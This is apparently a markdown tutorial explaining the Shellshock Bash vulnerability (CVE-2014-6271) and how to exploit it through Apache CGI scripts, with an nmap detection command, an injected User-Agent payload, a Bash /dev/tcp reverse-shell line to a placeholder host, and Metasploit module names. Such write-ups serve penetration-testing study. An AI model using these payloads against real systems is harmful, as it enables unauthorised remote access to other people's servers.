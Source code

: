 
### What is it ? 

- Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash in Linux based OS, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

- The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.

- Bash is a Unix shell that is part of the GNU project and is the default shell for most Linux distributions. Windows doesn't utilise Bash, as it isn't a Unix based OS.

### How does it work ?

- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: `() {:};.`

- This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a `*Nix` based operating system.
 
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client. 

### How to exploit ?

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.

* In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

- Whenever a CGl script is executed, the web server will initiate a new process and run the CGI script with Bash.

- This vulnerability can be exploited both manually and automatically with the use of an `MSF` exploit module.

### Manual Exploitation

1. Use `ifconfig` to find the target IP address. The target is generally the IP after yours in the subnet.
2. Perform a `nmap` scan to check if the target is running a web server.
3. Check the source code of the website, see if it is running any `CGI` script.
4. If `CGI` script is found, then it means that the target is executing commands with bash.
5. Using `nmap` to find out if the target is vulnerable to `ShellShock` or not.
```
nmap -sV <target-ip> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
- The script arguments in this case are used to specify the CGI script we are testing.
- In this case, the CGI script is `gettime.cgi`.

6. If it is vulnerable, we can execute arbitrary commands by injecting malicious HTTP headers. We can  use `BurpSuite` to do this.
7. Open `BurpSuite` with default configurations.
8. Click Proxy, and make sure intercept is on, then click forward.
9. Reload the webpage `<target-ip>/gettime.cgi` and the request will be intercepted within the proxy.
10. Send the request to the repeater by right clicking.
11. Click on repeater and we'll now replace the User-Agent data with our malicious special characters, which will enable us to execute arbitrary commands. 
```
() { :; }; echo; echo; /bin/bash -c '<command>'
```
12. We can then click send, and it'll display the output of the command as a response.

### How to get a reverse shell manually ?

1. Use `netcat` to listen on a port.
```
nc -lnvp 1234
```
2. Open `BurpSuite` and replace the `User-Agent` with this-
```
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<lhost>/1234 0>&1'
```
3. Switch back to your netcat listener, and we should get a reverse shell.

### Automatic Exploitation

1. Start up `msfconsole`
2. Module to scan if the webserver is vulnerable.
```
use auxiliary/scanner/http/apache_mod_cgi_bash_env
```
3. Module for exploitation.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```
4. Set `TARGETURI`. For example - `/gettime.cgi`
5. Run the exploit. This should provide us with a reverse shell.